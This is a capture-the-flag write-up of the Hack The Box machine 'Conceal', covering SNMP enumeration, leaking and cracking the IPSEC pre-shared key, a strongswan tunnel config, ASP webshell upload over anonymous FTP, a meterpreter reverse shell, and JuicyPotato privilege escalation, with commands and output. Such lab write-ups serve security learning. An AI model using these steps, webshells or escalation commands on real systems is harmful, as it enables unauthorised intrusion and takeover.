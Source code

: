```yaml
---
title: 'Hack The Box - Writeup'
subtitle: 'Conceal'
author: 'Patrick Hener'
date: \today{}
documentclass: scrartcl
pandoc-latex-color:
  - classes: [command]
    color: blue
---
```

<!-- Latex foo -->
\renewcommand*\contentsname{Table of Content}
\pagebreak
\tableofcontents
\pagebreak
<!-- Latex foo ends -->

# Recon
Like every time.

## nmap
Nmap only spits out snmp and port 500 UDP (IPSEC) to be open.

### User enumeration
Nmaps module `snmp-win32-users` will spit out the following Windows Users:

```
--- » sudo nmap --script=snmp-win32-users -vv -p161 -sU 10.10.10.116                                                   
[output ommitted]
PORT    STATE SERVICE REASON
161/udp open  snmp    script-set
| snmp-win32-users: 
|   Administrator
|   DefaultAccount
|   Destitute
|_  Guest
[output ommitted]
```

## snmpwalk
A valuable information in snmpwalk is the PSK of the ipsec which is `iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"`.
The string `9C8B1A372B1878851BE2C097031B6E43` translates into `Dudecake1!`. It's hashed.

# Initial Foothold - Get user.txt
Foothold will take two steps. Establish VPN (hard), exploit the box (not that hard)

## VPN

With `strongswan` we can establish an IPSEC tunnel. It is tricky because you need to define the subnets and protocol right (tcp only, subnet=client-ip).
Also you need to hit the right settings for the proposals of phase1 and phase2.

See this config for reference:

```
patrick@i3kali ~ % cat /etc/ipsec.conf
config setup

conn conceal    
    leftsubnet=10.10.14.4
    right=10.10.10.116
    rightsubnet=10.10.10.116[tcp]
    auto=start
    authby=psk
    ike=3des-sha1-modp1024
    esp=3des-sha1!
    keyexchange=ikev1
    type=transport

patrick@i3kali ~ % sudo cat /etc/ipsec.secrets
# This file holds shared secrets or RSA private keys for authentication.

# RSA private key for this host, authenticating it to any other host
# which knows the public part.

# this file is managed with debconf and will contain the automatically created private key
#include /var/lib/strongswan/ipsec.secrets.inc

10.10.10.116 : PSK Dudecake1!
patrick@i3kali ~ % 

```

## Shell

There are two open TCP Ports (we know from snmp enumeration or TCP connect scan through IPSEC). Those are 21/ftp and 80/http.
Enumerating dirs on 80 reveals `/upload/` to be a upload folder.

Whatever you upload via 21/ftp using anonymous login, will be browsable under /uploads/ on port 80/http.

Using a webshell in `asp` format like this one can help initiating a metasploit shell.

I used a combination of [Upload-Shell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/up.asp) and [webshell](https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp) to upload a msfvenom payload and execute it. Then I gained a meterpreter reverse shell and got the flag.

```
meterpreter > dir
Listing: C:\Users\Destitute\Desktop
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-10-12 21:08:44 +0200  desktop.ini
100777/rwxrwxrwx  7168  fil   2019-01-08 12:40:20 +0100  msf.exe
100666/rw-rw-rw-  32    fil   2018-10-13 00:58:02 +0200  proof.txt

meterpreter > cat proof.txt 
6E9FDFE0DCB66E700FB9CB824AE5A6FF

meterpreter >
```

# Priv Esc - Get root.txt
For privesc you can leverage privileges of the shell you gained.

```
meterpreter > shell
wProcess 4144 created.
Channel 1 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64\inetsrv>hoami
whoami
conceal\destitute

C:\Windows\SysWOW64\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` enables you to use a `RottenPotato` Exploit on this machine.

For this we are using a version called `JuicyPotato`. It will spawn a process with system rights and then impersonate it's token to execute a command using SYSTEM rights.

I chost to just run `msf.exe` once again to gain a SYSTEM meterpreter.

```
meterpreter > upload JuicyPotato.exe
[*] uploading  : JuicyPotato.exe -> JuicyPotato.exe
[*] Uploaded 339.50 KiB of 339.50 KiB (100.0%): JuicyPotato.exe -> JuicyPotato.exe
[*] uploaded   : JuicyPotato.exe -> JuicyPotato.exe
meterpreter > shell
Process 4068 created.
Channel 3 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\Destitute\Desktop>JuicyPotato.exe -l 1337 -p c:\Users\Destitute\Desktop\msf.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
JuicyPotato.exe -l 1337 -p c:\Users\Destitute\Desktop\msf.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
.....
[*] Sending stage (206403 bytes) to 10.10.10.116
.
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Users\Destitute\Desktop>

#######################
[*] Meterpreter session 5 opened (10.10.14.4:4444 -> 10.10.10.116:49756) at 2019-01-08 14:02:47 +0100

msf exploit(multi/handler) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > shell
Process 2468 created.
Channel 1 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9606-BE7B

 Directory of C:\Users\Administrator\Desktop

27/11/2018  16:01    <DIR>          .
27/11/2018  16:01    <DIR>          ..
12/10/2018  22:57                32 proof.txt
               1 File(s)             32 bytes
               2 Dir(s)  52,485,173,248 bytes free

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
5737DD2EDC29B5B219BC43E60866BE08
```

